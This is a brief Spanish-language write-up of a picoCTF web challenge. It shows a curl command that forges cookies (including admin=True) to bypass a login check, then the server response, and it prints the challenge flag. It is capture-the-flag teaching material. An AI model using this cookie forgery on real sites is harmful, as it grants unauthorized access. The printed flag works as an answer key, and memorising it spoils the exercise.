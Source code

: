 ---
### Descripción:
```
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
```

### Pistas: 
```
1.- Hmm it doesn't seem to check anyone's password, except for Joe's?
```

### Solución:
- **Existe una manera editando las cookies del sitio, pero no me acuerdo como jajaja, por lo tanto haremos por el metodo consola, colocando el siguiente comando:**
```
estefania@estefania-IdeaPad-3-14ALC6:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=a; password=a; admin=True" | grep pico
```
- **Tendremos el siguiente resultado.**
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   3049      0 --:--:-- --:--:-- --:--:--  3051
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
```

### Bandera:
```
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
```

